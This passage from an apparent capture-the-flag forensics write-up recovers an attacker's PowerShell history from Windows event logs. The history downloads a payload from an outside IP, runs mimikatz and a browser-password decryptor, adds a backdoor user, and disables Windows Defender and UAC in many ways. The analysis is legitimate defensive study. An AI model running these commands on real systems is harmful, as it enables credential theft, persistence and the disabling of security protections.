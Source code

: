 {{< image src="images/writeups/htb_ca_2024/sus_bat.png" caption="Reverse Shell" >}}

The attacker used powershell as the default shell when get a connection from the victim. But there is no Powershell folder in `%appdata%\Windows\` path so we can not get a log from there.

The second way is from Windows Event log. I used `chainsaw` for this process.

```powershell
$ whoami
$ systeminfo
$ net user /domain
$ net user
$ net user Guess password /ADD
$ Set-LocalUser -Name Guess -PasswordNeverExpires $true
$ pwd
$ ipconfig
$ cd C:\User
$ cd C:\Users
$ dir
$ cd tommyxiaomi
$ cd Documents
$ dir
$ Invoke-WebRequest -URI "http://13.53.200.146/intel.zip" -OutFile "./intel.zip"
$ dir
$ '&"C:\Program Files\7-Zip\7z.exe" x -p hoilamgi intel.zip'
$ '&"C:\Program Files\7-Zip\7z.exe" x -phoilamgi intel.zip'
$ dir
$ ./mimikatz.exe
$ ./fscan64.exe
$ dir
$ dir
$ dir
$ '& "./intel.exe"'
$ dir
$ Get-MpComputerStatus | select IsTamperProtected
$ Get-MpPreference -MAPSReporting 0
$ Set-MpPreference -MAPSReporting 0
$ Set-MpPreference -DisableRealtimeMonitoring $true
$ Get-MpComputerStatus | Select-Object -Property Antivirusenabled,AMServiceEnabled,AntispywareEnabled,BehaviorMonitorEnabled,IoavProtectionEnabled,NISEnabled,OnAccessProtectionEnabled,RealTimeProtectionEnabled,IsTamperProtected,AntivirusSignatureLastUpdated
$ 'Dism '
$ Dism /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart /quiet
$ New-ItemProperty -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
$ Set-MpPreference -DisableRemovableDriveScanning $true
$ Set-MpPreference -DisableArchiveScanning $True
$ Get-MpPreference|select DisableArchiveScanning
$ Get-MpComputerStatus | Select RealTimeProtectionEnabled, IoavProtectionEnabled,AntispywareEnabled | FL
$ cmd.exe /c "C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f"
$ Set-MpPreference -DisableRealtimeMonitoring $true
$ Set-MPPreference -DisableBehaviourMonitoring $true
$ Add-MpPreference -ExclusionPath 'C:\Users\tommyxiaomi\Documents' -ExclusionExtension '.exe' -Force
$ Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Users\tommyxiaomi\Documents"
$ '&"C:\Program Files\7-Zip\7z.exe" x -phoilamgi intel.zip'
$ dir
$ ./browser-pw-decrypt.exe
$ ./browser-pw-decrypt.exe all
$ '& "./intel.exe"'
```